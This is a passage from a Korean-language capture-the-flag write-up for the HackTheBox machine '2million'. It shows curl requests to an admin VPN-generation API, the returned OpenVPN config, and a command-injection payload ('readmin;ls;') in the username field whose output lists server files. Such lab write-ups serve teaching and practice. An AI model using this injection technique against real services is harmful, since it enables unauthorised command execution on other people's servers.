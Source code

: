 
## [0x04] connect shell
---

`/api/v1/admin/vpn/generate` api는 어떤 기능인지 알아보자. ovpn 파일을 생성하는 api로 보인다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# curl -XPOST "http://2million.htb/api/v1/admin/vpn/generate" --cookie "PHPSESSID=631oojvs6hjl3bvqmfttoiv0q9" -H "Content-Type: application/json" -d '{"u'{"username":"readmin"}'
client
dev tun
proto udp
remote edge-eu-free-1.2million.htb 1337
resolv-retry infinite
nobind
persist-key
persist-tun
remote-cert-tls server
comp-lzo
verb 3
data-ciphers-fallback AES-128-CBC
data-ciphers AES-256-CBC:AES-256-CFB:AES-256-CFB1:AES-256-CFB8:AES-256-OFB:AES-256-GCM
tls-cipher "DEFAULT:@SECLEVEL=0"
auth SHA256
key-direction 1
<ca>
-----BEGIN CERTIFICATE-----
MIIGADCCA+igAwIBAgIUQxzHkNyCAfHzUuoJgKZwCwVNjgIwDQYJKoZIhvcNAQEL
BQAwgYgxCzAJBgNVBAYTAlVLMQ8wDQYDVQQIDAZMb25kb24xDzANBgNVBAcMBkxv
bmRvbjETMBEGA1UECgwKSGFja1RoZUJveDEMMAoGA1UECwwDVlBOMREwDwYDVQQD
DAgybWlsbGlvbjEhMB8GCSqGSIb3DQEJARYSaW5mb0BoYWNrdGhlYm94LmV1MB4X
DTIzMDUyNjE1MDIzM1oXDTIzMDYyNTE1MDIzM1owgYgxCzAJBgNVBAYTAlVLMQ8w
DQYDVQQIDAZMb25kb24xDzANBgNVBAcMBkxvbmRvbjETMBEGA1UECgwKSGFja1Ro
```

다양한 방법으로 username 파라미터에 테스트하였으나, 알 수가 없어 결국 공략을 참고하였다. username에 `;[command];`와 같은 형태로 넣어주면 된다. 맨 뒤에 `;`를 넣지 않아 계속 공격이 되지 않았다...🤢
``` bash
┌──(root㉿kali)-[/home/user]
└─# curl -XPOST "http://2million.htb/api/v1/admin/vpn/generate" --cookie "PHPSESSID=631oojvs6hjl3bvqmfttoiv0q9" -H "Content-Type: application/json" -d '{"username":"readmin;ls;"}'

Database.php
Router.php
VPN
assets
controllers
css
fonts
images
index.php
js
views
```
